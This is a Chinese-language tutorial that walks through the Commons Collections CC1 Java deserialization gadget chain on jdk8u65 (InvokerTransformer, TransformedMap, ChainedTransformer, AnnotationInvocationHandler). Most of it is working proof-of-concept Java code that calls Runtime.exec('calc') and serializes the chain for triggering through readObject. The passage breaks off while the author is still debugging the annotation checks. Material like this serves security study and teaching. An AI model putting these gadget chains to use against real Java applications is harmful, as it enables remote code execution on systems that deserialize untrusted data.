# java反序列化-CC链

# Commons-Collections-CC1链

首先下载jdk8u65，配置好环境

再添加 Maven 中，对 CC1 链的依赖包。

```
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.2.1</version>  
</dependency>
```

import CC 的包

```
import org.apache.commons.collections.functors.InvokerTransformer;
```

---

## Common-Collections 相关介绍

[Apache Commons](http://commons.apache.org/)是Apache软件基金会的项目，曾经隶属于`Jakarta`项目。`Commons`的目的是提供可重用的、解决各种实际的通用问题且开源的Java代码。Commons由三部分组成：`Proper`（是一些已发布的项目）、`Sandbox`（是一些正在开发的项目）和`Dormant`（是一些刚启动或者已经停止维护的项目）。

- 简单来说，Common-Collections 这个项目开发出来是为了给 Java 标准的 `Collections API` 提供了相当好的补充。在此基础上对其常用的数据结构操作进行了很好的封装、抽象和补充。

---

### 包结构介绍

- `org.apache.commons.collections` – CommonsCollections自定义的一组公用的接口和工具类
- `org.apache.commons.collections.bag` – 实现Bag接口的一组类
- `org.apache.commons.collections.bidimap` – 实现BidiMap系列接口的一组类
- `org.apache.commons.collections.buffer` – 实现Buffer接口的一组类
- `org.apache.commons.collections.collection` –实现java.util.Collection接口的一组类
- `org.apache.commons.collections.comparators`– 实现java.util.Comparator接口的一组类
- `org.apache.commons.collections.functors` –Commons Collections自定义的一组功能类
- `org.apache.commons.collections.iterators` – 实现java.util.Iterator接口的一组类
- `org.apache.commons.collections.keyvalue` – 实现集合和键/值映射相关的一组类
- `org.apache.commons.collections.list` – 实现java.util.List接口的一组类
- `org.apache.commons.collections.map` – 实现Map系列接口的一组类
- `org.apache.commons.collections.set` – 实现Set系列接口的一组类

---

## TransformMap版CC1攻击链分析

反序列化攻击需要先明确思路

首先要找入口类，需要一个readObject方法，结尾这里需要一个能够命令执行的方法，然后再找中间的链子引导

攻击一定是从尾部出发去寻找头的，流程图如下。



---

### 1. 寻找链子尾部的危险方法

在分析链子之前我们先看看链尾的命令执行exec方法

先在CC1的源码目录下找到Transformer接口

然后快捷键 ctrl + alt + B，查看实现接口的类。



在`InvokerTransformer` 成功找到了我们需要的尾部也就是-命令执行

- 在 `InvokerTransformer` 类中存在一个反射调用任意类的transfom方法，可以作为我们链子的终点。我们可以利用它来调用exec方法实现命令执行



存在反射调用任意类的情况

```
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
```

看到这里有漏洞，我们先尝试构造一下，调用这个类的弹计算器。

在调用这个类之前，我们先回顾一下反射的命令执行的代码。

```
package org.mixbp;

import org.omg.SendingContext.RunTime;

import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        Class c = Runtime.class;
        Method execMethod = c.getMethod("exec", String.class);
        execMethod.invoke(runtime, "calc");

    }
}
```

这是普通java反射的写法

接下来我们构造一个利用 `InvokerTransformer` 类弹计算器的程序。

根据构造方法构造 EXP，因为是 public 的方法，这里无需反射。



直接用有参构造方法构造攻击即可

```
package org.mixbp;

import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws Exception{
        Runtime runtime =  Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(runtime);
                
    }
}
```

这里最后必须要调用transfom方法`invokerTransformer.transform(runtime);`

所以下一步的目标是去找调用 `transform` 方法的不同名函数

---

### 2、寻找初步链子

先跟进到transfom方法，然后右键 -> 查找用法(find usages) 也可以ALT + F7

这样就能查看哪些函数调用了transform方法

这里找到21个调用



这种就不行，因为这是transform自己再调用transform

```
  public Object transform(Object input) {
        for (int i = 0; i < iPredicates.length; i++) {
            if (iPredicates[i].evaluate(input) == true) {
                return iTransformers[i].transform(input);
```

我们需要不同名函数调用transform方法，这样链子才能往前走

发现TransformedMap类的checkSetValue方法调用了transform()方法



```
valueTransformer.transform(value);
```

分析一下这里的valueTransformer是什么，在TransformedMap` 的构造函数中发现了 `valueTransformer



发现这里TransformedMap的构造方法作用域是protected，说明肯定会被自己调用也就是类内部的调用

ctrl + f搜索TransformedMap ，发现一个静态方法decorate中创建了 `TransformedMap` 对象



 到这里可以初步写一下我们的poc

```
package org.mixbp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception{
        Runtime runtime =  Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
	
		Class<TransformedMap> transformedMapClass = TransformedMap.class;  
 		Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);  
 		checkSetValueMethod.setAccessible(true);  
 		checkSetValueMethod.invoke(decorateMap, runtime);  


    }
}
```

分析一下这条链子怎么构成的

- 首先`vokeTransformer` 的 `transform` 方法可以进行反射的命令执行。
- 在 `checkSetValue` 方法当中，会执行 `.transform` 的方法。这也就是我们链子的尾部 
- 无法直接获取`TransformedMap`对象，因为作用域是protected

所以先获取`TransformedMap`对象，传入我们构造的`invokerTransformer`

```
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
HashMap<Object,Object> hashMap = new HashMap<>();
// 这里key直接传null即可，因为只对value进行利用
Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
```

然后我们已经得到`TransformedMap`对象，通过反射调用 `checkSetValue` 方法进行攻击

```
Class<TransformedMap> transformedMapClass = TransformedMap.class;
Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
checkSetValueMethod.setAccessible(true);
checkSetValueMethod.invoke(decorateMap, runtime);
```

成功执行命令，但是这里我们还得继续跟下去，到目前为止还只是反射调用，并不能反序列化执行

---

### 3、找完整链子

我们的链子目前已经到了checkSetValue当中，所以我们需要再次查看调用，看看哪些方法调用了checkSetValue

只找到一处，setValue方法调用了checkSetValue



发现这是一个抽象类，是 `TransformedMap` 的父类。

并且发现调用 `checkSetValue` 方法的类是 `AbstractInputCheckedMapDecorator` 类中的一个内部类 `MapEntry`



`setValue()` **实际上就是在 Map 中对一组 entry（键值对）**进行 `setValue()` 操作。

但是TransformedMap类里没有setValue()，所以在调用的时候就会调用父类AbstractInputCheckedMapDecorator中的setValue，然后调用checkSetValue实现后续的链子最终调用exec

我们写一段代码，看看在用entry遍历Map的时候进行setValue操作能不能走到setValue方法中，然后触发后半条链子

```
package org.mixbp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception{
        Runtime runtime =  Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> hashMap = new HashMap<>();
        // 这里必须要put一个键值对，否则transformedmap.entrySet() 返回空集合
        hashMap.put("key","value");
        
        Map<Object,Object> transformedmap = TransformedMap.decorate(hashMap, null, invokerTransformer);
        for(Map.Entry<Object,Object> entry : transformedmap.entrySet()){
        // 如果是空集合永远不会执行，因为没有任何 entry
            entry.setValue(runtime);
        }


    }
}
```

成功执行，说明这条链可以用，我们已经找了一半了。

所以我们现在只要找到一个遍历数组的地方调用了setValue，我们就能执行后半条链子

---

### 4、找readObject()

根据上面的链子我们已经追到setValue方法了

这里我们可以继续去找其他方法中的setValue延长链子，然后继续跟下去

但是最好是找readObject()方法调用setValue()，这样就能完成链子了

继续查找setValue的调用，找到一个`readObject()` 的入口类



类名为`AnnotationInvocationHandler`，`InvocationHandler` 这个后缀是用做**动态代理中间处理**，因为它继承了 `InvocationHandler` 接口。

```
 for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

要调用 `setValue()` 方法需要过这两个if

```
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
```

然后，`readObject` 的方法是类 `AnnotationInvocationHandler` 的，`AnnotationInvocationHandler` 的作用域为 `default`，所以我们需要通过反射的方式来获取这个类及其构造函数，再实例化它。

接下来手写EXP

---

## TransformMap版CC1 EXP

### 理想的EXP

```
package org.mixbp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
        Runtime runtime =  Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put("key","value");

        Map<Object,Object> transformedmap = TransformedMap.decorate(hashMap, null, invokerTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        aihConstructor.setAccessible(true);
        Object o = aihConstructor.newInstance(Override.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

但是我们还得解决三个问题

1. Runtime对象无法序列化，因为Runtime类没有继承serialize类
2. `setValue()` 的传参，是需要传 `Runtime` 对象的；而在实际情况当中的 `setValue()` 的传参是这

```
memberValue.setValue(
	new AnnotationTypeMismatchExceptionProxy(
		value.getClass() + "[" + value + "]").setMember(
			annotationType.members().get(name)));
```

3.还需要绕过上面两个if判断

---

### 1、解决Runtime不能序列化的问题

`Runtime` 是不能序列化的，但是 `Runtime.class` 是可以序列化的

主要原理：**Runtime 对象不能序列化，但创建 Runtime 对象的"方法调用指令"可以序列化。反序列化时执行这些指令，动态创建 Runtime 对象。**

先写一个普通反射

```
package org.mixbp;  
  
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Main {  
    public static void main(String[] args) throws Exception{  
        Class c = Runtime.class;
        Method getRuntimeMethod = c.getMethod("getRuntime",null);
        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
        Method execMethod = c.getMethod("exec", String.class);
        execMethod.invoke(r,"calc");
	}  
}
```

接着，我们将这个反射的 `Runtime` 改造为使用 `InvokerTransformer` 调用的方式。

```
package org.mixbp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
   
		// 反射调用
          Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
          Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}).transform(getRuntimeMethod);
          new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);

    }

}
```

可以发现，上方主函数最后三行代码有一个共同点就是：

- 格式都为 `new InvokerTransformer().invoke()`
- 后一个 `invoke()` 方法里的参数都是前一个的结果

从代码的复用性角度来说，我们应当减少这种复用的工作量，于是我们使用 `ChainedTransformer` 这个类。

```
    // 传参为Transformer数组
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }

	
	// 递归调用transform方法
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

由于他会进行递归调用所以我们只需要传入第一层参数即可，也就是Runtime.class

编写 EXP，先定义一个数组，然后将数组传到 `ChainedTransformer` 类中，再调用 `.transform` 方法。

```
package org.mixbp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
   
		// 利用ChainedTransformer来进行反射调用，简化代码
          Transformer[] transformers = new Transformer[]{
                  new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                  new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                  new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
          };

          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
          chainedTransformer.transform(Runtime.class);

    }

}
```

然后再将其与`decorate`的链子结合

```
package org.mixbp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
   
		// 利用ChainedTransformer来进行反射调用，简化代码
		Transformer[] transformers = new Transformer[]{
			new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
          };

		ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
         
		HashMap<Object,Object> hashMap = new HashMap<>();
		hashMap.put("key","value");
        Map<Object,Object> transformedmap = TransformedMap.decorate(hashMap, null, chainedTransformer);
		Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
		Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
        aihConstructor.setAccessible(true);  
        Object o = aihConstructor.newInstance(Override.class, transformedMap); 
    }

}
```

Runtime不能序列化的问题解决了，但是我们的EXP还是无法弹出计算器，因为EXP没有`transformer`的调用，调试一下看看情况

- 断点位置：先打在 `AnnotationInvocationHandler` 的两个 if 判断。

调试发现第一个if就跳出去了

---

### 2、解决if判断的问题，让链子进入到setValue方法

第一个 if 语句 `if (memberType != null)`，跳出来的原因是我们传入的 `memberType` 为 null 了

```
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();

 
	
    AnnotationType annotationType = null;
    
    // 获取传参中注解的成员方法
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();


    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        
        // 成员方法不能为空
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```

 我们的传参语句

```
Object o = aihConstructor.newInstance(Override.class, transformedMap); 
```

进去看看Override



发现里面是没有成员变量的，我们要去找另外的注解



这里发现Target是有成员方法的，有一个成员方法value，我们把Override.class换成Target.class

然后再次调试，发现还是过不了

```
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
if (memberType != null) {
}
```
